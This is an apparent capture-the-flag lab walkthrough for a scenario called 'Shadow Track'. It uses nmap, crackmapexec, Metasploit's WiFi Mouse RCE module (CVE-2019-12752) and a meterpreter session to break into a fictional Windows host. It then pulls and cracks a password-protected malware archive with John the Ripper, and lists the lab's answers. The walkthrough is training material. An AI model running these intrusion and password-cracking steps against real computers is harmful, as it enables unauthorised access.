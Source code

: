 # 04 - Shadow Track (Lab)

Close surveillance allowed us to identify a member of a hacker group named Harry while he was working in a cafe. We believe that Harry was using the cafe's Wi-Fi network to launch various cyber-attacks. This gives us the opportunity to learn more about his activities by accessing his computer through the cafe's network.

Your task is to infiltrate Harry's computer via the cafe's Wi-Fi network and uncover the cyber attacks and communication networks of this hacker group.


Questions Walkthrough:1. What is the name of the target computer?

To begin, we need to enumerate the ports and services running on Harry's computer. We can use nmap for this purpose.
```
 nmap -p- --open -n --max-retries 5000 -sS -vvv -Pn 172.20.31.12 -oG allPorts
```

![](../Assets/Pasted%20image%2020251028154318.png)


Then lets perform a more in depth scan on the open ports

```
nmap -sSVC -p135,139,445,1978,5040,49664,49665,49666,49667,49668,49669,49672 172.20.31.12
```

Since its running SMB lets try to make a crackmapexec to get the name of the computer.
```
crackmapexec smb 172.20.31.12
```

![](Assets/Pasted%20image%2020251028153926.png)


Answer:DESKTOP-BG4O059

Question 2: What is the operating system of the target computer?
Answer: Windows 10
Question 3: What is the domain name of the website whose user information was compromised by the hacker group?
Lets look for vulnerabilities on open ports.
```
1978: WiFi Mouse service
```
What is WiFi Mouse RCE?

CVE-2019–12752

WiFi Mouse is a legitimate application, but versions up to 1.7.5.9 contain a critical vulnerability:

Lets head to msfconsole and search for it.
```
msfconsole
search wifi_mouse
```

![](Assets/Pasted%20image%2020251028154958.png)


After enumerating if we go to cd C:\Users\Harry\Desktop we can find three interesting files:
1. **response.txt** — Large file (likely contains stolen data)
2. **Telegram.txt** — Communication information
3. **malware.zip** — Malicious software used by the group

Lets look for the domain name on the response.txt file.
```
findstr /R /C:"http[s]*://[a-zA-Z0-9./?=_-]*" response.txt
```

![](Assets/Pasted%20image%2020251028155454.png)

Answer: trustbank.hv

Question 4: What is the number of compromised user data?
Lets count the number of lines on the response.txt file and filter only the email addresses.
```
findstr /R /C:"[a-zA-Z0-9._-]*@[a-zA-Z0-9.-]*" response.txt | find /c /v ""
```

Question 5: What are any of the other websites targeted by the hacker group?
Lets enumerate a bit more
```
cd C:\Users\Harry\Documents\hack
dir
```

![](Assets/Pasted%20image%2020251028155942.png)


Here we have a targets_domains.txt lets see the content
```
type target_domains.txt
```

Answer: primelogistics.hv

Question 6: What is the group participation link to the platform on which the hacker group communicates?

If we read the previous Telegram.txt file there we can find the link

Answer: t.me/+37NnWAZY2HTaYjM9A

Question 7: What is the MD5 hash value of the malware used by the hacker group?
Lets find the malware.zip file and download it to our machine. Lets make a command to find any file that has malware on its name on Windows.
```
dir /s /b | findstr /i "malware"
```
Found it on C:\Users\Harry\Downloads\malware.zip

Lets download it from the meterpreter session
```
download C:\Users\Harry\Downloads\malware.zip
```
Then if we try to unzip it in linux it asks for a password.
```
zip2john malware.zip > ziphash.txt
john --wordlist=/usr/share/wordlists/rockyou.txt ziphash.txt
```


![](Assets/Pasted%20image%2020251028162050.png)

Lets unzip it now
```
unzip malware.zip
```
And finally calculate the md5 hash of the malware file

```
md5sum malware.exe
```


Answer: 035bce7b8ecd5e46298e2666c5ba2fb2